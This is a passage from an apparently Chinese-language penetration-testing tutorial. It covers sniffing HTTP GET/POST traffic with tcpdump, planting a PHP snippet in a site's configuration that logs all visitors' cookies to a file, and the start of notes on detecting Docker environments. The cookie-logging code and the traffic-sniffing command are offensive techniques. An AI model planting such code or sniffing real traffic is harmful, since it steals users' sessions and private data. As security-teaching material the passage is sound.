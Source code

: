 ```plain
tcpdump -i eth1 -s 0 -A 'tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x47455420 or tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504f5354'
```

## 网站文件

除了使用抓包工具去进行敏感信息的抓取，我们还可以在网站本身去做一下手脚。  
比如网站是php的，那我们可以在配置文件文件中，插入恶意代码，获取Cookie等信息，下面是代码示例：

1.  `<?php`
2.  `$fp = fopen('/var/www/html/site/cookies.txt', 'a');`
3.  `fwrite($fp,json_encode($_COOKIE).PHP_EOL);`
4.  `fclose($fp);`

# 云安全

现在越来越多的业务开始上云，使用容器部署业务，那随之而来的也是对应的安全风险，包括不限于未授权访问、命令执行等漏洞。

## docker

### 判断是否是docker环境

-   进程数很少，比如少于10条  
    ![image-20201209185320827](assets/1700701638-a076af108e3b34f7d5c411aad724f8cb.png)
-   常见的命令却没有，如没有wget命令  
    ![image-20201209185457364](assets/1700701638-e7817170afbc14a1a941fc0eabe5d785.png)
-   存在/.dockerenv文件  
    ![image-20201209185515825](assets/1700701638-6acc9f4567584d16f75c073e5897c402.png)
-   /proc/1/cgroup内包含”docker”字符串  